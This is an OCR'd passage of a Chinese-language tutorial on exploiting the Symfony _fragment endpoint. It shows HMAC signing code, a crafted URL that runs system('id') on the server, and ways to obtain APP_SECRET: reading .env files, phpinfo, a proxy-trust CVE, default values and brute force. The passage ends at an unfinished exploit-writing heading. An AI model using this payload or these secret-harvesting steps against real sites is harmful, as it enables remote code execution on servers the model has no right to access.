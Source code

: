 ```php
    private function computeHash(string $uri): string
    {
        # [1]
        return base64_encode(hash_hmac('sha256', $uri, $this->secret, true));
    }
```

所以正常情况下，`_hash` 对应的值的生成逻辑如下（假设这里的APP_SECRET为正确的secret）- 前提是知道secret：

```python
import base64, hmac, hashlib
print(base64.b64encode(hmac.HMAC(b'{{APP_SECRET}}', b'http://localhost:8000/_fragment', hashlib.sha256).digest()))
# 假设Return : b'lNweS5nNP8QCtMqyqrW8HIl4j9JXIfscGeRm/cmFOh8='
```

然后访问url： `http://localhost:8000/_fragment?_hash=lNweS5nNP8QCtMqyqrW8HIl4j9JXIfscGeRm/cmFOh8=` 会发现原本403的网页变为404 （ 因为没有其他指定请求属性，无法找到Controller）

如果要设置 `system($command)` 则如下：

```textile
 page="http://localhost:8000/_fragment?_path=_controller%3Dsystem%26command%3Did%26return_value%3Dnull"
```

此时返回 `500` 并且显示代码执行成功。

## secret

secret是什么？它是一个字符串，它用于Symfony框架的一些加密和验证操作，如创建cookie或防止CSRF的令牌。秘密值应该是随机生成的，并且不应该被泄露给任何人

获取secret的方式有以下几种

- 读取文件
  
  - `app/config/parameters.yml`
    
  - `.env`
    
- phpinfo
  
  - `$server['APP_SECRET']`
- SSRF / IP spoofing (CVE-2014-5245) ： < 2.5.3, 请求来自于受信任的代理，会被认为是安全的而无需secret
  
- 默认值/常见值: `ThisTokenIsNotSoSecretChangeIt` （更多参考[symfony-exploits/secret_fragment_exploit.py at main · ambionics/symfony-exploits · GitHub](https://github.com/ambionics/symfony-exploits/blob/main/secret_fragment_exploit.py) 下给出的一些常见secret）
  
- Bruteforce:
  
  - 可行性：
    
    1.   一些人喜欢用特定密码
      
    2. secret也用于csrf加密
      

## exp编写
